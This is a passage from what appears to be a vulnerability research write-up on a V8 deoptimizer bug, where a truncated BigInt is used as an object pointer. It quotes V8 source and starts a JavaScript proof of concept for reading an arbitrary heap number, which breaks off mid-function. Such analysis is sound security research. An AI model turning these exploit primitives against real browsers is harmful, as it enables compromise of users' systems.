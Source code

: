 Using those structures, the `code generator` will then build the necessary `DeoptimizationExit`s to which a `Translation` will be associated with. The function `BuildTranslation` will handle the the `InstructionOperand`s in `CodeGenerator::AddTranslationForOperand`. And this is where the (AnyTagged) `MachineType` corresponding to the `BigIntAsUintN` node is used! When building the translation, we are using the BigInt value as if it was a pointer (second branch) and not a double value (first branch)!

```c++
void CodeGenerator::AddTranslationForOperand(Translation* translation,
                                             Instruction* instr,
                                             InstructionOperand* op,
                                             MachineType type) {      
  case Constant::kInt64:
        DCHECK_EQ(8, kSystemPointerSize);
        if (type.representation() == MachineRepresentation::kWord64) {
          literal =
              DeoptimizationLiteral(static_cast<double>(constant.ToInt64()));
        } else {
          // When pointers are 8 bytes, we can use int64 constants to represent
          // Smis.
          DCHECK_EQ(MachineRepresentation::kTagged, type.representation());
          Smi smi(static_cast<Address>(constant.ToInt64()));
          DCHECK(smi.IsSmi());
          literal = DeoptimizationLiteral(smi.value());
        }
        break;
```

This is very interesting because that means at runtime (when deoptimizing), the deoptimizer uses this pointer to rematerialize an object! But since this is a controlled value (the truncated big int), we can make the deoptimizer reference an arbitrary object and thus make the next ignition bytecode handler use (or not) this crafted reference.

In this case, we are playing with the accumulator register. Therefore, to find interesting primitives, what we need to do is to look for all the bytecode handlers that get the accumulator (using a `GetAccumulator` for instance).

### Experiment 1 - reading an arbitrary heap number

The most obvious primitive is the one we get by deoptimizing to the ignition handler for add opcodes.

```javascript
let addr = BigInt(0x11111111);

function setAddress(val) {
  addr = BigInt(val);
}

function f(x) {
  let y = BigInt.asUintN(49, addr);
  let a = 111;
  try {
    var res = 1.1 + y; // will trigger a deoptimization. reason : "Insufficient type feedback for binary operation"
    return res;
  }
  catch(_){ return y}
}

function compileOnce() {
  f({x:1.1});
  %PrepareFunctionForOptimization(f);
  f({x:1.1});
  %OptimizeFunctionOnNextCall(f);
  return f({x:1.1});
```